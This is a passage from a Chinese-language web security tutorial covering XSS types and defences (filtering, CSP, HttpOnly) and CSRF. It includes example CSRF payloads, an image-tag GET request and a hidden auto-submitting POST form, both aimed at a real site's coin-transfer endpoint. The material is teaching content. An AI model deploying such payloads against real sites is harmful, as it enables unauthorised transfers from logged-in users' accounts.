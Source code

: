 :::caution 注意
 web服务器不会存储反射型xss攻击的恶意脚本，这是和存储型xss攻击不同的地方
:::

- 基于dom的xss攻击： 
 这种攻击不涉及页面web服务器，简单来说就是黑客通过各种手段将恶意脚本注入用户的页面中，在web资源传输过程中或者在用户使用页面的过程中修改web页面的数据。

### xss防御

> 他们的共同点是首先往浏览器中注入恶意脚本，然后通过恶意脚本将用户信息发送至黑客部署的恶意服务器上，所以要阻止xss攻击，我们可以通过阻止恶意js脚本的注入和恶意消息的发送来实现

:::tip 解决措施
1. 服务器或者浏览器端对输入脚本进行过滤或转码
2. 充分利用csp，限制加载其他域下的资源文件（即使黑客插入了一个js文件，这个js文件也是无法被加载的），禁止向第三方域提交数据，这样用户数据也不会外泄，禁止执行内联脚本和未授权的脚本，可以使用Content-Security-Policy HTTP 头部 来指定你的策略，像这样：Content-Security-Policy:policy（policy参数是一个包含了各种描述你的CSP策略指令的字符串。）
3. 使用HttpOnly属性： 
由于许多xss攻击都是来盗用cookie的，因此还可以通过向http响应返回的set-cookie设置HttpOnly属性来保护cookie的安全（无法通过js来读取cookie）
:::

### CSRF攻击

:::danger
跨站请求伪造，已登录用户访问攻击者网站，攻击网站向被攻击网站发起恶意请求（利用浏览器会自动携带cookie）
:::

### CSRF攻击方式

```html title="当用户访问了攻击者的网站时，黑客有三种方式去实施csrf攻击"

//1.自动发起get请求
<img src="https://time.geekbang.org/sendcoin?user=hacker&number=100"> 
//黑客将转账的请求接口隐藏在img标签内，欺骗浏览器这是一张图片资源，当该页面被加载时，浏览器会自动发起img的资源请求。如果服务器没有对该请求进行判断的话，那么服务器就会认为该请求是一个转账请求，于是用户账户上的100极客币就被转移到黑客的账户上去了
//2.自动发起post请求
<html>
  <body>
    <h1>黑客的站点: CSRF攻击演示</h1>
    <form id= 'hacker-form' action="https://time.geekbang.org/sendcoin" method=POST>
      <input type="hidden" name="userll" value="hacker" />
      <input type="hidden" name="numberll" value="100" />
    </form>
    <script> document.getElementById ('hacker-form').submit(); </script> 
  </body>
</html>
//黑客在他的页面中构建了一个隐藏的表单，该表单的内容就是极客时间的转账接口，当用户打开该站点之后，这个表单就会被自动执行提交，当表单被提交之后，服务器就会执行转账操作，因此使用构建自动提交表单这种方式，就可以自动实现跨站点post数据提交
//3.引诱用户点击链接
```

:::caution
与xss攻击不同的是，csrf攻击不需要将恶意代码注入用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击，所以黑客是无法通过csrf攻击来获取用户页面的数据的
:::
